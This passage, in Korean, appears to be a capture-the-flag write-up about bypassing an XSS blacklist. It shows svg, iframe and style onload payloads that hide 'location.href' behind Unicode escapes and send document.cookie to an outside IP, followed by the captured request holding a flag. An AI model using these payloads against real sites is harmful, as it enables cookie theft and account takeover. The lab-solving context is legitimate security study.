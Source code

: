 `onload` 속성을 사용할 수 있는 태그는 `black_list`에 있는 태그를들 제외하고 `svg, iframe, style` 등이 있음

|

|

### location.href 우회

---

`location`과 `href`를 사용해야 쿠키를 탈취할 수 있음

이는 유니코드 이스케이프 시퀸스로 대체 가능

[Unicode Escape Encoder / Decoder Online - DenCode](https://dencode.com/string/unicode-escape)

|

```html
<svg onload="\u0061lert(1)">

<svg onload=\u006Cocation.\u0068ref="http://20.41.120.97:10010/"+document.cookie>

<iframe onload=\u006Cocation.\u0068ref="http://20.41.120.97:10010/"+document.cookie>

<style onload=\u006Cocation.\u0068ref="http://20.41.120.97:10010/"+document.cookie>
```

알파벳을 하나씩 유니코드로 변환 후 게시글을 작성하면 스크립트가 실행됨

|

|

### 결과

```sh
GET /cookie=K0%7Breplace_is_for_loop%7D HTTP/1.1
Host: 20.41.120.97:10010
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/126.0.6478.126 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:10006/
Accept-Encoding: gzip, deflate
```

|

|
